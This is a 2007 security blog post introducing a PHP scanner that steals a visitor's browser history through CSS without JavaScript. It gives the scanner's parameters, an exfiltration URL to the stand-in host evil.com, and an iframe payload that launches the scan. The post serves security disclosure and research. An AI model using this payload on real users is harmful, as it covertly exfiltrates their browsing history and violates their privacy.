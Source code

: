 ```yaml
---
title: Noscript HScan
author: petko-d-petkov
date: Wed, 28 Feb 2007 22:57:00 GMT
template: this/views/post.jade
category: fucked
---
```


After releasing my Firefox specific [history scanner](/blog/hscan-redux/), RSnake came up with [his own](http://ha.ckers.org/blog/20070228/steal-browser-history-without-javascript) bleeding edge history scanning technique which is based on Jeremiah Grossman's [implementation](http://jeremiahgrossman.blogspot.com/2006/08/i-know-where-youve-been.html) but it does not require JavaScript. This approach has its own limitations and advantages.

On the advantages side, you don't really need JavaScript to steal the victim's browser history anymore. So, everybody who is thinking that turning off JavaScript is the safe way to go, you are most definitely wrong. You should turn CSS off too. This is it. Sparten browsing is the key. On the other hand, history scanning without JavaScript is less powerful in a way that attackers are not able to perform actions as soon as a history entry is discovered.

Still, I think that RSnake's approach is quite interesting and innovative. I decided to write a generic scanner that can be configured on the fly to steal any browser history. The scanner is located [here](http://www.gnucitizen.org/static/blog/2007/02/noscript-hscan-php.txt). Before using it you need to pass several GET or POST (it is up to you really) parameters to the script like this:

	noscript-hscan.php?u1=[url]&u2=[url]&t=[target collection point]

The scanner excepts any number of URLs. The only rule is that every URL parameters must start with **u** (lower case u). It is a good practice to number the URLs that you want to scan as u1, u2, u3, etc. The **t** parameter is for the target collection point. This is the place where the history information will be sent to. The collection point will receive requests that look like the following:

	http://evil.com/path/to/collection/point?u=[url]&t=[timestamp]&c=[ip]

The easiest way you can launch the generated scanning code is to include it inside an iframe. For example you can use something like the following:

```html
<iframe src="noscript-hscan.php?t=http%3A//evil.com/path/to/collection/point%3F&u0=http%3A//www.yahoo.com/&u1=http%3A//www.google.com/&u2=http%3A//www.myspace.com/&u3=http%3A//www.msn.com/&u4=http%3A//www.ebay.com/&"></iframe>
```

_This is it! It is simple._
